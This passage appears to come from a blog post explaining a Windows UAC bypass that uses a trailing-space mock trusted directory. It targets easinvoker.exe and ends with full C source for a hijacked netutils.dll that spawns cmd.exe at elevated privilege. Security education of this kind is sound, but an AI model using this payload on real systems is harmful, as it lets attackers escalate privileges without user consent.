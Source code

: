 I edited some of this to reflect the executable we're using in this blog post:

> "When this awkward path is sent to AIS for an elevation request, the path is passed to **GetLongPathNameW**, which converts it back to “**C:\Windows\System32\easinvoker.exe**” (space removed). Perfect! This is now the string that trusted directory checks are performed against (using RtlPrefixUnicodeString) for the rest of the routine. The beauty is that after the trusted directory check is done with this converted path string, it is then freed, and rest of checks (and final elevated execution request) are done with the original executable path name (with the trailing space)" - David Wells

Okay, let's choose our autoexecutable. I'll go with `easinvoker.exe`

![image](https://github.com/user-attachments/assets/4003ee7f-1754-474c-bba6-d386d8a2f558)

Now, we need to take care of a few things first.  We need to make sure to include the proper import(s) for our DLL when we load it using easinvoker.exe
I don't want to have to deal with tons of imported APIs, so I'd like to find a DLL that has just one or two.  We'll use the free WinAPISearch64 program to get the job done!
I'll go with the `netutils.dll` DLL file since it only has the 1 imported API:

![image](https://github.com/user-attachments/assets/a0fc0c77-d7e4-48fa-801d-23aee338ea7d)

Next, I need to understand how that API is laid out.  I'll check it out on Microsoft's site:

![image](https://github.com/user-attachments/assets/f9306112-f7b1-4c1f-aaf7-df25bbca94cd)

![image](https://github.com/user-attachments/assets/2ee4eb1b-fa93-481e-be39-653c7dba4625)

cool, let's put it all together: 

```c
//x86_64-w64-mingw32-gcc netutils.c -shared -o netutils.dll
#include <windows.h>
#include <lm.h>
#include <wtypes.h>

BOOL APIENTRY DllMain (HMODULE hModule, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            WinExec("cmd.exe", 1); 
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
NET_API_STATUS WINAPI NetApiBufferFree(LPVOID Buffer)
{
        Sleep(INFINITE);
        return 1;
}
```
